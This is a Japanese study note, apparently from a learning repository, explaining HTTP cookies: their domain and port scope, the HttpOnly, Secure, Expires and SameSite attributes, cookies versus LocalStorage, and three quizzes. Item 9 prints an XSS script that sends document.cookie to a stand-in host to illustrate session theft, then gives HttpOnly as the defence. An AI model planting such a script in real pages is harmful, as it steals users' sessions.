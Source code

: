 # クッキーを理解する

## 課題1

### クッキーとは
クッキーはHTTPヘッダーを介して送受信する値である。

ユーザーがwebブラウザよりあるサイトにアクセスした際に、サーバーが`Set-cookie`をレスポンスヘッダに値をセットしてレスポンスを返したとする。
(このヘッダには、クッキーの名前、値、有効期限、パス、ドメインなどの情報が含まれている。)


ブラウザは、`Set-cookie`の値をブラウザ上にcookieとして保持する。cookieは有効期限が過ぎるまでブラウザ上に残り続ける。

ユーザーがそのwebサイトのサーバーにリクエストする際に、ブラウザ上に保持しているcookieの値はリクエストヘッダの`Cookie`の値として送信される。ブラウザからCookieを受け取ったサーバは、クッキーに基づいてユーザーの情報を取得し、適切なレスポンスを提供する。


**1**


`www.hoge.com`で発行されたクッキーは、`www.fuga.com`には送信されない。
`www.hoge.com`で発行されたクッキーは、次のドメイン名のサーバーにしか送信されない。
- `www.hoge.com`
- `{sub}.www.hoge.com` (`domain`属性で`www.hoge.com`が指定されていた場合)

**2**

クッキーの送信においてポート番号は影響しない。  
よって、hoge.com:8080のクッキーはhoge.com:9090にも送信される。

**3**

クッキーにDomain="hoge.com"を指定した場合、api.hoge.comにもクッキーは送信される。
Domain="hoge.com"を指定した場合、次のドメイン名のサーバーにリクエストする際にクッキーが送信される。
- hoge.com
- {sub}.hoge.com

**4**

JavaScriptからクッキーの値が取得されることを防ぐには、Cookieの`HttpOnly`属性を設定する必要がある。

**5**

HTTPS（暗号化）通信の時だけクッキーを送信するには、`Secure`属性を設定する必要がある。

**6**

Expires属性で指定された時刻を過ぎるとクッキーは削除される。

**7**


**SameSite**属性は、クッキーのセキュリティを向上させるために、クッキーがどの状況で送信されるかを制御するものである。
この属性により、クロスサイトリクエストフォージェリ（CSRF）攻撃のリスクを減らすことができる。

SameSite属性には以下の3つの値がある：

- SameSite=Lax（デフォルト）
- SameSite=Strict
- SameSite=None

**SameSite=Lax**

クッキーは同一サイトのリクエストには常に送信される。
サードパーティのサイトからのリンクを通じてサイトに来たときにも送信されるが、POSTリクエストなどのサブリクエストには送信されない。

例：ユーザーが`https://example.com`にログインし、Set-Cookieヘッダでクッキーが以下のように設定された場合、

```http
Set-Cookie: sessionId=abc123; SameSite=Lax
```

ユーザーが`https://example.com`のページ内のリンクをクリックするか、他のサイトからのリンクをクリックして`https://example.com`にアクセスした場合、クッキーは送信される。しかし、他のサイトからのPOSTリクエストには送信されない。


**SameSite=Strict**

クッキーは同一サイトのリクエストにのみ送信され、サードパーティのサイトからのリクエストには一切送信されない。

例：クッキーが以下のように設定された場合、

```http
Set-Cookie: sessionId=abc123; SameSite=Strict
```

ユーザーが他のサイトからのリンクをクリックして`https://example.com`にアクセスした場合、クッキーは送信されない。同一サイト内のリンククリックやリクエストのみでクッキーが送信される。

**SameSite=None**

クッキーは同一サイトおよびサードパーティのサイトのリクエストに対して常に送信される。
ただし、この属性を使用する場合は「Secure」属性も設定する必要がある（HTTPSを使用する）。

例：クッキーが以下のように設定された場合、

```http
Set-Cookie: sessionId=abc123; SameSite=None; Secure
```

クッキーは、他のサイトからのすべてのリクエストに対して送信される。

**8**

- ログインパスワード
- クレジットカード情報
- 個人情報

などの機密性の高い情報をクッキーに格納するのはさけるべきである。
機密情報はサーバ内の安全なデータストアに保持するのが良い。

**クッキーを使うべきタイミング**

- クッキーはサーバとの通信時に自動的に送信されるため、認証情報やセッション管理をするケース
- サブドメイン間で共有する必要がある情報を保存するケース

**LocalStorageを使うべきタイミング**

- クライアントサイドでデータを永続的に保存するケース
- 大容量のデータ(クッキーだと毎回大容量のデータ送信になるため、レイテンシーに影響が出る)

**9**

1. **悪意のあるスクリプトの挿入**: 攻撃者は、ユーザーが入力可能なフィールド（コメント、フォーラムの投稿など）に悪意のあるスクリプトを挿入する。例えば、以下のようなスクリプトである：

```html

<script>
var img = new Image();
img.src = "http://example.com/stealcookie?cookie=" + document.cookie;
</script>

```

2. **スクリプトの実行**: 他のユーザーがこの悪意のあるスクリプトが埋め込まれたページを閲覧すると、ブラウザがスクリプトを実行する。

3. **クッキー情報の送信**: スクリプトは、ユーザーのクッキー情報を攻撃者のサーバーに送信する。攻撃者はこのクッキー情報を使用して、セッションハイジャックや他の悪意のある行為を行うことができる。

対策としては、HttpOnly属性を設定することで、JavaScriptからcookieの値を参照できないようにする。

##　課題2

### クイズ1

<summery>
ブラウザに保存容量を超えた量のクッキーが保存されているとする。通常、保存容量を超えるとブラウザはクッキーをある規則にそって削除する。ブラウザの保存容量が超えた際に、とあるクッキーが削除されないようにするにはどうすれば良いか？
<details>
CookieのPriority属性にHighを指定する。

参考: [CookieのPriority属性の仕様](https://asnokaze.hatenablog.com/entry/2019/12/19/013022)
</details>
</summery>

### クイズ2

<summery>
HttpOnly属性がtrueのCookieの値を書き換えて、書き換えた後のcookieを用いてリクエストするにはどうすれば良いでしょうか？
<details>
ブラウザのdeveloper toolから該当のクッキーの値を書き換えて、リクエストする。HttpOnly属性がtrueであっても、手動での参照や更新は防げない。
</details>
</summery>

### クイズ3

<summery>
ブラウザで生成するクッキーと、サーバーで生成するクッキーの違いにはどのようなものがあるでしょうか？

<details>
ブラウザで生成するクッキーにはHttpOnlyを指定することができないので、JavaScriptからの参照・更新が可能となる。サーバーで生成するクッキーはHttpOnlyをセットした場合には、ブラウザのJavaScriptからクッキーを参照・更新することができない。
</details>
</summery>
